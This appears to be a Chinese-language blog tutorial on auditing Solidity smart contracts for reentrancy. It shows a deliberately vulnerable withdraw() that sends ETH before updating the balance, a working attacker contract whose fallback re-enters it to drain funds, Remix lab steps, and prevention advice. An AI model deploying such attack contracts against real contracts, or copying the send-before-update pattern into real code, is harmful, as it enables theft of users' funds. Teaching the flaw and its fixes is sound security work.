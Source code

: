 ```yaml
---
layout: post_layout
title: 智能合约审计-重入攻击漏洞
time: 2019年12月19日 星期四
location: 合肥
pulished: true
excerpt_separator: "#"
---
```


描述：漏洞合约中某个函数中，使用call()方法发送eth,若eth的接收者为一个合约地址，则会触发该合约的fallback()函数。若该合约是攻击者的恶意合约，攻击者可以在fallback()函数中重新调用漏洞合约的上述函数，导致重入攻击

核心问题：重要的合约变量在“重入”的过程中没有被修改，从而绕过了限制

# Fallback函数

概念:
    回退函数，是合约里的特殊无名函数，有且仅有一个。它在合约调用没有匹配到函数签名，或者调用没有带任何数据时被自动调用。

触发场景：

- address.send(ether_to_send)
   
- address.call().value(ether_to_send)
    
# 漏洞流程
![重入漏洞](/assets/demo/chongru.png)
# 漏洞合约分析
```sol
pragma solidity ^0.4.24;

contract ReentrancyGame {

  mapping (address => uint) public credit; //credit表示存储用户的余额

  event Deposit(address _who, uint value);  //Deposit表示充值
  event Withdraw(address _who, uint value);
    
  function deposit() payable public returns (bool) {
    credit[msg.sender] += msg.value; //credit调用deposit()函数进行充值使用msg.value进行ETH发送
    emit Deposit(msg.sender, msg.value);
    return true;
  }
    
  function withdraw(uint amount) public returns (bool) { //withdraw提币函数
    if (credit[msg.sender]>= amount) {
      msg.sender.call.value(amount)();
      credit[msg.sender]-=amount;
      emit Withdraw(msg.sender, amount);
      return true;
    }
    return false;
  }  

  function creditOf(address to) public returns (uint) {
    return credit[to];
  }
}
```
漏洞点：从提币开始，首先校验credit是否大于amount(本次提现的ETH),然后使用call.value进行转账，然后再扣除余额。这里漏洞点就出在我们先使用call.value对用户进行转账，然后再减少余额。就是因为这种情况，攻击者可以反复进行withdraw(),在进入withdraw()之前，第一步的校验仍然有效，在进入withdraw()之后，credit(余额)并没有减少，第一步的校验仍然有效，攻击者才能源源不断的从合约中提取ETH
----------
# 攻击者合约
```sol
pragma solidity ^0.4.24;

contract ReentrancyGame {

  mapping (address => uint) public credit;

  event Deposit(address _who, uint value);
  event Withdraw(address _who, uint value);
    
  function deposit() payable public returns (bool) {
    credit[msg.sender] += msg.value;
    emit Deposit(msg.sender, msg.value);
    return true;
  }
    
  function withdraw(uint amount) public returns (bool) {
    if (credit[msg.sender]>= amount) {
      msg.sender.call.value(amount)();
      credit[msg.sender]-=amount;
      emit Withdraw(msg.sender, amount);
      return true;
    }
    return false;
  }  

  function creditOf(address to) public returns (uint) {
    return credit[to];
  }
  
  function checkBalance() public constant returns (uint){
      return this.balance;
  }
}

contract ReentrancyAttack {   //调用attack()函数对漏洞合约进行远远不断的偷取ETH
  ReentrancyGame public regame;
  address owner;

  function ReentrancyAttack (ReentrancyGame addr) payable { 
    owner = msg.sender;
    regame = addr;
  }

  function attack() public returns (bool){
    regame.deposit.value(1)();
    regame.withdraw(1);
    return true;
  }
  
  function geteth() public returns (bool){ 
    owner.transfer(this.balance); 
    return true;
  }

  function checkBalance() public constant returns (uint){
      return this.balance;
  }

  function() public payable { 
    regame.withdraw(1); 
  }
}
```

----------
# 使用Remix进行调试
- 首先对合约进行编译（Current version设置为0.4X，Auto compile，Enable Optimization全部勾上。编译完成后会出现2个合约分别为ReentrancyAttack，ReentrancyGame）

- 首先部署ReentrancyGame(漏洞合约)，这里Account设置一个受害者账户(0xca3...a733c)，然后点击Deploy部署完成后漏洞合约，这里还是需要充值一定数量的ETH便于实验观察（Value设置为100 wei ETH点击deposit,然后点击checkBalance查看当前受害者地址为100 wei ETH，这里受害者合约ReentrancyGame就部署完成了）

- 攻击者合约部署ReentrancyAttack(攻击者合约)，由于漏洞合约地址在提现的时候需要一定的ETH，所以这里在设置ReentrancyAttack合约的时候需要设置Value为5 wei ETH，Deploy设置为ReetrancyGame合约地址（注：这里是合约地址并不是账户地址）Account换一个账户(0x147...c160c)点击Deploy即可部署攻击者合约，部署完成后点击checkBalance查看当前账户余额为5 wei ETH,说明攻击者合约部署完成了

- 漏洞攻击-点击ReentrancyAttack(攻击者合约)attack即可攻击。攻击的过程中由于一直通过withdraw()函数进行循环提现，过程有点缓慢，等gas消耗完毕既可以查看(checkBalance)攻击者合约账号余额为51 wei ETH,再次查看ReentrancyGame(漏洞合约)账户余额为54 wei ETH,漏洞利用成功
# 漏洞预防


1. 在将 Ether 发送给外部合约时使用内置的 transfer() 函数 。transfer转账功能只发送 2300 gas 不足以使目的地址/合约调用另一份合约（即重入发送合约）。

2. 引入互斥锁。也就是说，要添加一个在代码执行过程中锁定合约的状态变量，阻止重入调用。

3. 将任何对未知地址执行外部调用的代码，放置在本地化函数或代码执行中作为最后一个操作，是一种很好的做法。这被称为 检查效果交互（checks-effects-interactions） 模式。
